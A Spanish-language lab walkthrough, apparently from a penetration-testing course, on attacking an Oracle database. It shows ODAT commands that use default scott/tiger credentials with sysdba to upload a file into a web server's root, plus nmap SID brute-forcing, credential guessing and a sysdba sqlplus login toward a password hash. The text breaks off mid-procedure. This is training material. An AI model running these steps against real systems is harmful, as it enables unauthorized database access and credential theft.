 #### Oracle RDBMS - Carga de archivos

```shell-session
[!bash!]$ echo "Oracle File Upload Test" > testing.txt
[!bash!]$ ./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt

[1] (10.129.204.235:1521): Put the ./testing.txt local file in the C:\inetpub\wwwroot folder like testing.txt on the 10.129.204.235 server                                                                                                  
[+] The ./testing.txt file was created on the C:\inetpub\wwwroot directory on the 10.129.204.235 server like the testing.txt file
```

Finalmente, podemos probar si la subida de archivos funcionó correctamente con un`curl`. Por lo tanto, usaremos una `GET http://<IP>/archivo.txt`solicitud o podremos acceder a través del navegador.

```shell-session
[!bash!]$ curl -X GET http://10.129.204.235/testing.txt

Oracle File Upload Test
```

------

**\[+1 CUBE ] Enumerate the target Oracle database and submit the password hash of the user DBSNMP as the answer.

En primer lugar, realizamos un:
```
sudo nmap -p1521 -sV 1.2.3.4 --open --script oracle-sid-brute
```
Para descubrir SID existentes de la base de datos de Oracle.
Observamos que detecta un SID llamado *"XE"*

Acto seguido, lanzamos odat.py para intentar numerar credenciales. Lo haremos con el comando:
```
./odat.py all -s 10.129.205.19

```
 Y observo las siguientes credenciales asociadas a tal SID:
```
[+] Accounts found on 10.129.205.19:1521/sid:XE: 
scott/tiger
```

Me conecto a la base de datos de oracle con dichas credenciales:
```
sqlplus \ scott/tiger@10.129.205.19\/XE as sysdba
```

Y ejecuto un:
```
select table_name from all_tables;
```

Y veo, entre otros:
